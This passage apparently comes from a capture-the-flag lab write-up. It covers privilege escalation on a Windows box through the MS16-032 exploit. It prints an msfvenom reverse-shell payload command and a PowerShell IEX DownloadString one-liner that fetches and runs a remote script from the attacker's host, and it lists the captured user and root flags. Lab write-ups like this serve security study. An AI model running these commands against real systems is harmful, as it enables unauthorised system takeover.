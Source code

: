 4. To escalate privileges, I found the system was vulnerable to MS16-032, so I used the script found here: https://www.exploit-db.com/exploits/39719 but I needed to modify it to spawn a reverse shell instead of opening another command prompt.

5. I generated a reverse shell executable and downloaded it onto the target:

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f exe -o win_revtcp_8000.exe
   ```

6. I modified the following lines of the exploit code:

   ```powershell
   # Line 189
   0x00000002, "C:\coyote\win_revtcp_8000.exe", "",
   # Line 334
   0x00000002, "C:\coyote\win_revtcp_8000.exe", "",
   ```

7. I started a netcat listener, hosted the ps script on my webserver and tried to run the exploit by remotely sourcing it.  I ran into an issue where it kept saying  "No valid thread handle was captured, exiting!".  This turned out to be an issue where Windows was calling the 32-bit version of powershell, so I had to specify the path to the 64-bit version, which:

   ```powershell
   C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ExecutionPolicy Bypass -command "IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/39719.ps1'); Invoke-MS16-032; whoami"
   ```

   ![image-20201111211832286](.Report.assets/image-20201111211832286.png)

8. From this SYSTEM shell, I was able to list the contents of root.txt and user.txt:
   ![image-20201111211951398](.Report.assets/image-20201111211951398.png)
   user.txt: d0c39409d7b994a9a1389ebf38ef5f73
   root.txt: 51ed1b36553c8461f4552c2e92b3eeed
